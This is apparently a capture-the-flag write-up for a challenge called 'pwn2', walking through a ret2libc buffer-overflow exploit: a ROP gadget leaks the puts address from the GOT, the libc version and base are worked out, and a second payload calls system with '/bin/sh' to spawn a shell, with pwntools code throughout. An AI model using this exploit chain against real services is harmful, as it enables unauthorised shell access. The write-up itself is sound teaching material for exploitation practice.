

# pwn2


This program is slightly different from the last one. It gives us two inputs. I honestly didn't know why. I just decided to perform a ret2libc attack since it was the most straight forward.

Also, this challenge doesn't have a win function


In order to perform a ret2libc attack, we must first figure out what version of libc it is, as different libcs have different function offsets. However, the addresses of the functions change every time the program is run. This is supposed to be a form of protection against this attack.

However, the last three bytes in the funciton address always stays the same. As such, we can still figure out the libc version from the last three bytes.

In order to leak the address of the functions, we have to trick the program into printing them out.

This can be done with ROP. Remember how we pointed the RIP to the win function in pwn1? This is quite similar to that.

In assembly, functions take their arguments from the RDI register. As such, we have to pass in the function that we want to be leaked into RDI. This can be done with ROP gadgets.

Using ropper on the file, we can find a `pop rdi` gadget, which will basically remove the value in RDI and pass in a new one.

Here is how our payload will look like:
```
poprdi = pack(0x0000000000401196)
puts_got = pack(elf.got['puts'])
system_got = pack(elf.got['system'])
puts = pack(elf.symbols['puts'])
main = pack(elf.symbols['main'])

payload = b"A" * offset
payload += poprdi + puts_got + puts 
# payload += poprdi + system_got + puts
payload += main

# This is to get pass the first input, which doesn't allow for buffer overflows.
p.sendlineafter(b"Would you like a flag?\n", b'a')
p.sendlineafter(b"Would you like a flag?\n", payload)
p.recvuntil(b"fl4g}")

puts_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
# system_leak = u64(p.recvline().strip().ljust(8, b'\x00'))
```

Basically, we are pointing the RIP to different snippets of code. These snippets of code combined will allow us to control the flow of the program.



With the values we obtained, we can go to https://libc.rip to figure out what libc version the program is using.


After downloading the libc, we must calculate the libc base. Remember how I said that the funciton addresses in the GOT change everytime when program is run? There is actually a pattern to how it is done. All the functions share a libc base, and with the libc, we know all the offsets of the functions.

We can simply take the libcbase + offset of the function in libc to get the address of the function in the program.

Libcs conatain a lot of useful functions, and right now we will make use of the system and binsh string within the libc.

Pro-tip: You can use pwninit to patch the bianry to specifically use the same libc as the server. This is useful for debugging with gdb.attach(p)


Here is what our payload looks like now:

```
libc = ELF("./libc6_2.35-0ubuntu3.1_amd64.so", checksec=False)

libcBase = puts_leak - libc.symbols['puts']
print(f"LIBC BASE:{hex(libcBase)}")
system = pack(elf.symbols['system'])
binsh = pack(next(libc.search(b'/bin/sh')) + libcBase)

payload = b"A" * offset
payload += ret
payload += poprdi + binsh
payload += system
```


Wow it works :thumbsup:

Flag:
n00bz{3xpl01t_w1th0u7_w1n_5uc355ful!}
